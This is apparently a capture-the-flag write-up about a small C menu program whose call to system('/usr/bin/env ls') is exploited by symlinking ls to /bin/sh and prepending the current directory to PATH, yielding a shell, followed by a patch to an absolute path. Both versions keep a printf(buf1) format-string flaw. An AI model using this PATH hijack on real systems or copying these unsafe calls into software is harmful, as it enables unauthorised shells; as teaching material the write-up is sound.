 This challenge doesn't differ for 32 bit or 64 bit.

Let's take a look at the source code...

```
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int main()
{
	char buf0[50];
	char buf1[50];

	while (1 == 1)
	{
		puts("Since we are falling down a bottoless pit, what do you want to do?");
		fgets(buf0, sizeof(buf0), stdin);
		
		if (strncmp(buf0, "0", 1) == 0)
		{
			fgets(buf0, sizeof(buf0), stdin);
		}

		if (strncmp(buf0, "1", 1) == 0)
		{
			system("/usr/bin/env ls");
		}

		if (strncmp(buf0, "2", 1) == 0)
		{
			printf(buf1);	
		}
	}
}
```

So when we look at the source code we see that we are essentially looped infinitly with a menu with 3 options. The first will allow us to write data to the buf0 buffer, however not enough to do a buffer overflow. The second option uses /usr/bin/env, which is a program that retrieves the directory path of something like python, echo, or in this case the ls program. This is based off of the PATH environement variable and cad be modified. Looking at the last option, we see that it has a format string vulnerabillity, however we have no pheasable way of storing input in buf1, so that option isn't going to work.

So reviewing our three options, the env seems to be the best. Thing is, then env utillity relies on the Path enviornment variable which can be modified. First let's see how it works.

```
guyinatuxedo@tux:/Hackery/escape/endless_pit/e3 (master)$ /usr/bin/env ls
e3  e3.c
guyinatuxedo@tux:/Hackery/escape/endless_pit/e3 (master)$ ls
e3  e3.c
```

As you can see, the output didn't differ at all because the env binary provided the correct path for the ks program. However what if we were to create a symbolic link of ls pointing to /bin/sh, export it to the PATH enviroment variable, then ran it?

```
guyinatuxedo@tux:/Hackery/escape/endless_pit/e3 (master)$ ln -s /bin/sh ls
guyinatuxedo@tux:/Hackery/escape/endless_pit/e3 (master)$ export PATH=.:$PATH
guyinatuxedo@tux:/Hackery/escape/endless_pit/e3 (master)$ /usr/bin/env ls
$ echo I have a shell!
I have a shell!
$ exit
```

As you can see, my modifieng the PATH enviorment variable, we got /usr/bin/env to run /bin/sh when we asked it to run ls. Let's see if the program will do the same thing.

```
guyinatuxedo@tux:/Hackery/escape/endless_pit/e3 (master)$ ./e3
Since we are falling down a bottoless pit, what do you want to do?
1
$ ls
$ echo is this working?
is this working?
$ cat out
Really, you can do anything you want and you want to leave!?
$ exit
$ exit
Since we are falling down a bottoless pit, what do you want to do? Level Cleared!
^C
```

As you can see, we got the binary to give us a shell by modifiing the Path variable. You can also see that as a result of this exploit, while we have the PATH enviornment variable changed for ls, ls no longer works. But we got a shell, and just like that we pwned the binary. Now let's patch it!

```
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int main()
{
	char buf0[50];
	char buf1[50];

	while (1 == 1)
	{
		puts("Since we are falling down a bottoless pit, what do you want to do?");
		fgets(buf0, sizeof(buf0), stdin);
		
		if (strncmp(buf0, "0", 1) == 0)
		{
			fgets(buf0, sizeof(buf0), stdin);
		}

		if (strncmp(buf0, "1", 1) == 0)
		{
			system("/bin/ls");
		}

		if (strncmp(buf0, "2", 1) == 0)
		{
			printf(buf1);	
		}
	}
}
```

Let's test it, with the PATH variable changed like we did to exploit this challeng.

```
guyinatuxedo@tux:/Hackery/escape/endless_pit/e3 (master)$ ./e3
Since we are falling down a bottoless pit, what do you want to do?
1
$ exit
Since we are falling down a bottoless pit, what do you want to do?
^C 
guyinatuxedo@tux:/Hackery/escape/endless_pit/e3 (master)$ ./e3_secure 
Since we are falling down a bottoless pit, what do you want to do?
1
e3  e3.c  e3_secure  e3_secure.c  ls  out
Since we are falling down a bottoless pit, what do you want to do?
1
e3  e3.c  e3_secure  e3_secure.c  ls  out
Since we are falling down a bottoless pit, what do you want to do?
```

Just like that, we patched the binary!
